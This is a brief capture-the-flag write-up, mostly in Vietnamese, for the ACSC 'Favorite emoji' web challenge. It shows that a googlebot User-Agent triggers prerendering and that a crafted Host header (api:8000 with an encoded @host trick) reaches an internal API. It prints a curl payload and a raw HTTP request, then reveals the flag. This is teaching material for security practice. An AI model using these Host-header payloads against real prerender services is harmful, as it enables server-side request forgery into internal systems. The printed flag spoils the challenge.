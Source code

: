 # Favorite emoji

![](../.gitbook/assets/image%20%2829%29.png)

Có thể flag nằm trong này 

![](../.gitbook/assets/image%20%2828%29.png)

Để lấy được flag ta set prerender = 1

=&gt; user\_agent = googlebot ...

![](../.gitbook/assets/image%20%2831%29.png)

![](../.gitbook/assets/image%20%2830%29.png)

host : api:8000

```text
payload1=curl -H "User-Agent: googlebot" http://favorite-emojis.chal.acsc.asia:5000 -H "Host: api：8000"
```

```text
payload2:

GET / HTTP/1.1
Host:api%3A8000%3F@host
Upgrade-Insecure-Requests: 1
User-Agent:googlebot
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

api%3A8000%3F@host
```

Flag : ACSC{sharks\_are\_always\_hungry}


